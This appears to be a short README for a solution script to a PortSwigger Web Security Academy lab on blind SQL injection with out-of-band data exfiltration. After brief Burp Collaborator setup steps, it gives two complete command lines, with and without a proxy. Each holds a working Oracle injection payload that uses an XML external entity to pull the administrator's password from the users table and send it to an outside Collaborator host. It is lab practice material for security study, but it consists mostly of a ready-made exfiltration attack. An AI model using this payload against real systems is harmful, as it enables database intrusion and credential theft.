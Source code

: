 # How to run script.py

### Blind SQL injection with out-of-band data exfiltration

Open Burp Collaborator: Open Burp Suite -> Click Burp (top left button) -> Click Burp Collaborator Client -> Click Copy to clipboard -> Now Burp Collaborator Server is running and waiting for requests

Replace the [0-9a-z]{30}.burpcollaborator.net address with the copied one

No Proxy:
- `python3 script.py -u "https://0a8f003104742a39c0f9d8c900b50066.web-security-academy.net/" -c "'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d\"1.0\"+encoding%3d\"UTF-8\"%3f><\!DOCTYPE+root+[+<\!ENTITY+%25+remote+SYSTEM+\"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.8gp0rin3h4hsj4b5a7l99rpcv31tpi.burpcollaborator.net/\">+%25remote%3b]>'),'/l')+FROM+dual--"`

Proxy:
- `python3 script.py -u "https://0a8f003104742a39c0f9d8c900b50066.web-security-academy.net/" -c "'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d\"1.0\"+encoding%3d\"UTF-8\"%3f><\!DOCTYPE+root+[+<\!ENTITY+%25+remote+SYSTEM+\"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.8gp0rin3h4hsj4b5a7l99rpcv31tpi.burpcollaborator.net/\">+%25remote%3b]>'),'/l')+FROM+dual--" -p 127.0.0.1:8080`

